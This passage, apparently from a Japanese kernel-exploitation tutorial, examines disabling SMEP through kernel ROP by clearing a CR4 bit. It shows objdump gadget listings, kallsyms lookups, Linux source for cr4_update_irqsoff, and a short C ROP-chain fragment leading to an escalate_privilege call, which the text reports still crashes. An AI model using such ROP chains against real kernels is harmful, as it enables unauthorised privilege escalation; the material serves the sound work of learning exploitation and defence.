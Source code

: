 ### SMEPの無効化？
ここまででkROPにより権限昇格できることが確認できましたが、実は別の方法を考えてみましょう。
[セキュリティ機構](../introduction/security#smep-supervisor-mode-execution-prevention)の節で説明したように、SMEPはCR4レジスタで制御されています。したがって、ROPでCR4レジスタの21ビット目をフリップできればSMEPが無効化され、ret2userが使えるようになるはずです。

問題はそのようなROP gadgetが存在するかです。CR4に対する即値の演算はできないので、別の汎用レジスタ経由で操作することになります。CR4を操作するコードはカーネル中に存在するので、そのようなgadgetは必ずありますが、副作用なくretで終わるものがあるかはobjdumpで探す必要があります。（多くのツールはCRレジスタに対する操作を正しく見つけてくれない上、このような処理の後にはjmpが続くことが多いです。）
例えば次のようにCR4を設定するgadgetは存在します。
```
ffffffff810284d5:       0f 22 e7                mov    cr4,rdi
ffffffff810284d8:       8b 05 4a 2f d4 00       mov    eax,DWORD PTR [rip+0xd42f4a]        # 0xffffffff81d6b428
ffffffff810284de:       85 c0                   test   eax,eax
ffffffff810284e0:       7e ea                   jle    0xffffffff810284cc
...
ffffffff810284cc:       c3                      ret
```

```
ffffffff81028535:       8b 05 ed 2e d4 00       mov    eax,DWORD PTR [rip+0xd42eed]        # 0xffffffff81d6b428
ffffffff8102853b:       85 c0                   test   eax,eax
ffffffff8102853d:       7f a5                   jg     0xffffffff810284e4
ffffffff8102853f:       c3                      ret
```
すぐさまretで終わるようなgadgetは見つからないので、これらのgadgetがどこから来たものか確認しましょう。kallsymsから近いアドレスにある関数を見つけます。
```
/ # cat /proc/kallsyms | grep ffffffff810285
ffffffff81028540 T native_write_cr4
ffffffff810285b0 T cr4_init
/ # cat /proc/kallsyms | grep ffffffff810284
ffffffff81028440 t default_init
ffffffff810284b0 T cr4_update_irqsoff
```
それぞれ[`cr4_init`](https://elixir.bootlin.com/linux/v5.10.7/source/arch/x86/kernel/cpu/common.c#L420)、[`cr4_update_irqsoff`](https://elixir.bootlin.com/linux/v5.10.7/source/arch/x86/kernel/cpu/common.c#L399)という関数から来ています。
特に`cr4_update_irqsoff`という関数は使えそうな見た目をしています。
```c
void cr4_update_irqsoff(unsigned long set, unsigned long clear)
{
	unsigned long newval, cr4 = this_cpu_read(cpu_tlbstate.cr4);

	lockdep_assert_irqs_disabled();

	newval = (cr4 & ~clear) | set;
	if (newval != cr4) {
		this_cpu_write(cpu_tlbstate.cr4, newval);
		__write_cr4(newval);
	}
}
EXPORT_SYMBOL(cr4_update_irqsoff);
```
CR4中で1に更新するビットと0に更新するビットを引数で操作できます。
そこで次のようなROP chainを実行してみます。
```c
  *chain++ = rop_pop_rdi;
  *chain++ = 0; // bit to set
  *chain++ = rop_pop_rsi;
  *chain++ = 1 << 20; // bit to clear
  *chain++ = cr4_update_irqsoff;
  *chain++ = (unsigned long)&escalate_privilege;
```
これを実行すると、やはり`escalate_privilege`実行時にSMEPでクラッシュしてしまいます。直前でCR4の値を確認すると、SMEPのビットが有効になっていることが分かります。なぜCR4が更新できていないのかステップ実行で確認しましょう。